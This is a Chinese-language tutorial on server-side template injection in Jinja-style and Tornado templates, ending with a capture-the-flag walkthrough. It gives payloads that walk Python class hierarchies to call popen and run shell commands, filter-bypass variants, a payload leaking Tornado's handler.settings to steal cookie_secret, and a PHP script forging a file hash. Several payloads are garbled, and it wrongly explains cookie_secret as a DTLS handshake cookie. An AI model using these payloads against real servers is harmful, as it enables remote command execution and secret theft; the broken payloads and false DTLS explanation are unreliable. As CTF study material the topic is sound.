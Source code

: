 # ssti模板注入和tornado模板注入

## ssti模板和tornado模板注入

产生模板注入的原因：是因为没有对用户的输入进行相应的检查，过分相信用户的输入导致的，由于在ssti模板和tornado模板中存在render渲染函数和 template渲染函数，因此当用户输入信息时
                                render函数和 template函数对输入的信息进行执行，并将结果渲染回页面，此时用户的输入是可控的，而且也没有对输入的信息进行审计，导致可能会出现一些恶意的代码。


### render函数和 template函数

对里面的信息进行渲染和返回页面

模板中可能的代码
```
render($_GET['msg'])

template($_GET['msg'])
```
对输入的信息进行执行并渲染回页面

### 用户输入恶意信息的格式：
```
{{.......}}装载一个变量

{%......%}装载一个控制语句

{#.......#}渲染时，注释中间的内容
```

## 对ssti模板中类的调用

用空格来知道并调用我们需要的类

查找模板中的类
```
{{' '._ _class_ _}}
```

查找模板类中的基类，一般为object类，有时不止一个基类，可以使用mro来显示所有基类，bases也可以显示所有基类
```
{{' '._ _class_ _._ _bases_ _}}

{{' '._ _class_ _._ _mro_ _}}
```

查找模板类中的基类的子类的集合，[0]是所有基类中的第一个基类
```
{{' '._ _class_ _._ _bases_ _[0]._ _subclasse_ _}}
```

查找模板类中的基类的子类的初始类，并用globals全局来查找所有的方法及变量及参数，()[118]是在模板类中的基类的第119个子类，['popen']('dir')是调用模板类中的基类的第119个子类的初始类的function popen中的dir来打开文件
```
{{' '._ _class_ _._ _bases_ _[0]._ _subclasse_ _()[118]._ _init_ _._ _globals_ _['popen']('dir').read()}}
```

实例
```
http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()}}  //打开文件并读取
```

## 模板注入可能有些过滤的绕过方法

### 绕过[]过滤

使用gititem绕过。
```
原poc {{"".class.bases[0]}}

绕过后{{"".class.bases.getitem(0)}}
```

### 过滤了subclasses，拼凑法
```
原poc{{"".class.bases[0].subclasses()}}

绕过 {{"".class.bases[0]'subcla'+'sses'}}
```

### 过滤了class
```
{{session['__cla'+'ss__'].__mro__[12]}}


{{request['__cl'+'ass__'].__mro__[12]}}
```

## tornado模板注入

tornado模板注入和以上ssti模板注入类似，不过tornado模板中，存在一些可以快速访问的对象，例如：handler.settings(环境变量)

而cookie_secret就在handler.settings中

## cookie_secret

是在DTLS握手过程中的生成和需要验证的cookie值

DTLS协议是对广播发送UDP报文的加密，且可以防止中断攻击，以为在建立握手时，客户端会发送client-hello请求，此时服务器会生成一个cookie值放在Hello-Verify-Request报文中，
此时客户端收到后需将收到的cookie值放到client-hello中，并再发送给服务器，服务器收到后对比cookie值，相同才分配资源。


## 实例（tornado模板注入）
打开网页后看到三个文件，分别时flag.txt、welcome.txt和hint.txt，各自打开文件，发现payload有filename&filehash的get的提交方式，有此可知，需要这两个变量都满足变量才能显示文件的内容



而打开三个文件后发现flag在/flllllllllllag文件下，且有render渲染函数，且知道了filehash的加密方式


此时需要我们找到cookie_secret值，此时我们在filename中输入flllllllllllag，发现报错，且payload为/error?msg=error，因此我们可以使用tornado模板中，存在一些可以快速访问的对象的特性，来构造payload
```
error?msg={{handler.settings}}
```

此时我们得到cookie_secret的值

然后我们构造exp
```
<?php
echo md5('f03d04f0-456b-4577-b431-bd29fd3292d2'.md5("/fllllllllllllag"));
?>
```

得出fliehash值后代入即可得到flag






